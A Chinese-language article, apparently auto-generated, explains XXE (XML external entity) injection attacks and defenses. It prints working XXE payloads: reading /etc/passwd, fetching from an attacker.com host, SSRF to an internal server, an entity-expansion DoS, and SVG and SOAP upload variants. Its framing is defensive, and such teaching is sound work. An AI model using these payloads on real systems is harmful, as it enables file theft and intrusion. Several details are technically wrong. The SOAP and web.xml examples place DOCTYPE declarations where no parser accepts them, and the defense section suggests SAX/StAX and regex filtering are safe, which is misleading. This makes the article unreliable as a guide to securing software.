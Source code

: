 # XXE实体注入防御体系中的攻击技术

## 1. 引言

XML外部实体注入（XXE）是一种常见的Web安全漏洞，攻击者通过利用XML解析器处理外部实体的方式，能够读取服务器上的敏感文件、执行远程请求、甚至导致服务器端请求伪造（SSRF）等攻击。为了有效防御XXE攻击，开发者需要深入了解其攻击手法和利用方式，从而构建完善的防御体系。

## 2. XXE实体注入的基本原理

XXE攻击的核心在于XML解析器对外部实体的处理。XML文档中可以定义外部实体，这些实体可以引用外部资源，如文件、URL等。当XML解析器解析包含外部实体的文档时，如果未对外部实体进行适当的限制或禁用，攻击者可以通过构造恶意XML文档，利用外部实体读取服务器上的敏感文件或执行其他恶意操作。

## 3. 常见的XXE攻击手法

### 3.1 文件读取

攻击者通过构造包含外部实体的XML文档，利用XML解析器读取服务器上的敏感文件。例如：

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

在上述示例中，攻击者定义了一个外部实体`xxe`，其内容为服务器上的`/etc/passwd`文件。当XML解析器解析该文档时，会读取并返回该文件的内容。

### 3.2 远程请求

攻击者可以通过外部实体发起远程请求，获取远程服务器上的资源。例如：

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/evil.xml">]>
<foo>&xxe;</foo>
```

在上述示例中，攻击者定义了一个外部实体`xxe`，其内容为远程服务器上的`evil.xml`文件。当XML解析器解析该文档时，会向远程服务器发起请求，获取并解析该文件。

### 3.3 服务器端请求伪造（SSRF）

攻击者可以利用XXE漏洞发起服务器端请求伪造（SSRF）攻击，通过服务器向内部网络或其他服务器发起请求。例如：

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://internal-server/secret">]>
<foo>&xxe;</foo>
```

在上述示例中，攻击者定义了一个外部实体`xxe`，其内容为内部服务器上的`secret`资源。当XML解析器解析该文档时，会向内部服务器发起请求，获取并返回该资源。

### 3.4 拒绝服务（DoS）

攻击者可以通过构造包含大量外部实体的XML文档，导致XML解析器在处理时消耗大量资源，从而引发拒绝服务（DoS）攻击。例如：

```xml
<!DOCTYPE foo [
  <!ENTITY xxe0 "0">
  <!ENTITY xxe1 "&xxe0;&xxe0;">
  <!ENTITY xxe2 "&xxe1;&xxe1;">
  ...
  <!ENTITY xxe100 "&xxe99;&xxe99;">
]>
<foo>&xxe100;</foo>
```

在上述示例中，攻击者定义了一系列嵌套的外部实体，最终导致XML解析器在处理时消耗大量内存和CPU资源，从而引发DoS攻击。

## 4. XXE攻击的利用方式

### 4.1 通过文件上传

攻击者可以通过上传包含恶意XML实体的文件，利用服务器端的XML解析器处理该文件时触发XXE漏洞。例如，上传一个包含恶意XML实体的SVG图像文件：

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<svg>&xxe;</svg>
```

当服务器解析该SVG文件时，会读取并返回`/etc/passwd`文件的内容。

### 4.2 通过API请求

攻击者可以通过向服务器发送包含恶意XML实体的API请求，利用服务器端的XML解析器处理该请求时触发XXE漏洞。例如，发送一个包含恶意XML实体的SOAP请求：

```xml
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <foo>
      <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
      <bar>&xxe;</bar>
    </foo>
  </soap:Body>
</soap:Envelope>
```

当服务器解析该SOAP请求时，会读取并返回`/etc/passwd`文件的内容。

### 4.3 通过配置文件

攻击者可以通过修改服务器上的配置文件，使其包含恶意XML实体，从而在服务器启动或重新加载配置时触发XXE漏洞。例如，修改服务器上的`web.xml`文件：

```xml
<web-app>
  <context-param>
    <param-name>foo</param-name>
    <param-value>
      <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
      <bar>&xxe;</bar>
    </param-value>
  </context-param>
</web-app>
```

当服务器加载该配置文件时，会读取并返回`/etc/passwd`文件的内容。

## 5. XXE实体注入防御体系的构建

为了有效防御XXE攻击，开发者需要构建完善的防御体系，包括以下几个方面：

### 5.1 禁用外部实体

在XML解析器中禁用外部实体是防御XXE攻击的最有效方法。开发者可以通过配置XML解析器，禁止解析外部实体。例如，在Java中使用`DocumentBuilderFactory`：

```java
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

### 5.2 使用安全的XML解析器

开发者应使用经过安全加固的XML解析器，避免使用存在已知漏洞的解析器。例如，使用`SAXParserFactory`或`StAX`解析器，而不是`DOM`解析器。

### 5.3 输入验证和过滤

开发者应对用户输入进行严格的验证和过滤，确保输入内容不包含恶意XML实体。例如，使用正则表达式过滤掉XML文档中的外部实体定义。

### 5.4 限制文件上传

开发者应限制用户上传的文件类型和内容，避免上传包含恶意XML实体的文件。例如，只允许上传特定类型的文件，并在上传前对文件内容进行检查。

### 5.5 监控和日志记录

开发者应监控服务器上的XML解析操作，并记录相关日志，及时发现和响应潜在的XXE攻击。例如，记录所有XML解析请求的详细信息，包括请求来源、解析内容和解析结果。

## 6. 结论

XXE实体注入是一种严重的Web安全漏洞，攻击者可以通过多种手法和利用方式发起攻击。为了有效防御XXE攻击，开发者需要深入了解其攻击原理和利用方式，构建完善的防御体系，包括禁用外部实体、使用安全的XML解析器、输入验证和过滤、限制文件上传以及监控和日志记录等措施。通过综合运用这些防御手段，开发者可以有效降低XXE攻击的风险，保障Web应用的安全性。

---

*文档生成时间: 2025-03-11 17:29:12*






















